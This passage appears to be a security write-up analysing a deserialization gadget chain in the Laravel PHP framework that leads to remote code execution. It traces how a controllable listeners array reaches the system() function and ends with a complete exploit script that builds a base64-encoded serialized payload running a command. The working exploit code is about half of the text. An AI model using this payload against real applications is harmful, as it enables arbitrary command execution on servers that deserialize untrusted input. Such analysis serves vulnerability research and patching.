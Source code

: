 > See how the value of `$listener` comes from, follow up with the `getListeners()` method. Here you can first control the value of `$listener` by the controllable variable `$this->listeners[$eventName]`, then enter the combination function, call the `getWildcardListeners()` method, follow up and take a look. After the default settings are executed, you will return `$wildcards = []`, and then return to the value of `$this->listeners[$eventName]` after the combination function merge is still `$this->listeners[$eventName]`, and then enter the `class_exists()` function. Since there is no class name for the command execution function, you can still return the value of `$this->listeners[$eventName]`

<img src="./images/poc-4-2.png" alt="">

> After controlling the value of `$listener`, use the passed `$event` value as the parameter value of the command execution function to perform RCE operations

### exp
```php
<?php
namespace Illuminate\Events {
    class Dispatcher {
        protected $listeners = [];
        public function __construct() {
            $this->listeners = ["calc" => ["system"]];
        }
    }
}



namespace Illuminate\Broadcasting {
    use Illuminate\Events\Dispatcher;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = "calc";
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
```